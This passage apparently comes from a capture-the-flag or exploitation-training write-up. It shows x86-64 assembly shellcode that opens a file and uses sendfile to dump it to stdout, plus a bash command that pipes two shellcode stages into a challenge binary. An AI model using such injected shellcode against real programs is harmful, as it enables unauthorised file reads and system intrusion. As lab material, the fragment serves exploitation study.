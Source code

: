 ```nasm
    mov rdi, [rsp]
    mov rsi, 0
    mov rax, 2
    syscall

    ; sendfile(1, rax, 0, 0x100)
    mov rdi, 1
    mov rsi, rax
    mov rdx, 0
    mov r10, 0x100
    mov rax, 40
    syscall
```
```bash
$ (cat stage1.shellcode; sleep 1; cat stage2.shellcode) | /challenge/program
```